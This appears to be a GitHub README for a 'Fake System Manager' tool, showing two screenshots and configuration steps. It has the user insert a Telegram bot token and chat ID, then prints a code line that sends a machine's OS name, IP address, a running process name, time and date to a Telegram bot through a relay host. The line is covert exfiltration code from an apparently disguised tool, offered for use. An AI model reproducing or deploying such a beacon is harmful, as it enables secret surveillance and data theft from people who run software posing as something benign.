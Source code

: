 # FSM
Fake System Manager
## Image
<img width="1919" height="1019" alt="image" src="https://github.com/user-attachments/assets/5d06101d-e1f9-422e-8e38-708ccefd61f3" />
<img width="497" height="1000" alt="image" src="https://github.com/user-attachments/assets/9831bab9-8dcc-4610-a269-67a418a01dbc" />
## Change
<pre>Token Bot Telegram & Chat ID</pre>
<pre>
http.Open "GET", "https://telegram.mrsaad.workers.dev/bot{TOKEN}/sendMessage?chat_id={ID}&text=" & os.Caption & " - " & ip.IPAddress(0) & " : " & objProcess.Name & " - " & Time & " - " & Date, False
</pre>
